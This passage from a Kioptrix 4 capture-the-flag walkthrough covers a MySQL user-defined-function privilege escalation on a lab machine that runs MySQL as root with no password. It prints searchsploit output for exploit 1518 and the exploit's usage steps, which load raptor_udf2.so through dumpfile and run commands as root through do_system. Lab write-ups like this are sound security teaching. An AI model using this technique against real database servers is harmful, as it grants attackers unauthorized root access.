 <figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/kioptrix4/checklogin.png" alt="">
  <figcaption>MySQL credentials!</figcaption>
</figure>

Oh my, running MySQL as root, using the root user, and with NO password!

If you've seen my Raven walkthroughs, you know exactly where this is going.

## UDF! UDF! UDF!

Let's add a MySQL user-defined-function (UDF) that lets us run a command. Back to Kali for a bit of prep work.

```bash
root@kali:~/Desktop/k4# searchsploit -m 1518
  Exploit: MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
      URL: https://www.exploit-db.com/exploits/1518/
     Path: /usr/share/exploitdb/exploits/linux/local/1518.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /root/Desktop/k4/1518.c
root@kali:~/Desktop/k4# head 1518.c -n 50
...
 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
```

The instructions are available in the C file, and we'll follow them with a couple changes.

We also need to grab our local IP to push files to the target.
